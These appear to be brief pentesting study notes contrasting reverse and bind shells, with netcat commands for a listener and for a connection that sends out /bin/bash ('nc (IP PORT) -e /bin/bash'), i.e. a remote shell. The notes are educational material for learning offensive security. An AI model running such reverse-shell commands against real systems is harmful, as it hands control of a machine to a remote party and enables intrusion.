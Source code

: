 Reverse shell vs Bind shell

Sunday, April 30, 2023

4:10 PM

-   Reverse shell victim connects to us (far more common 95%)

-   Bind shell we open a listener on victim machine and connect in

 

 

Netcat

-   Listener nc -nvlp (port)

-   Connect nc (IP PORT) -e /bin/bash
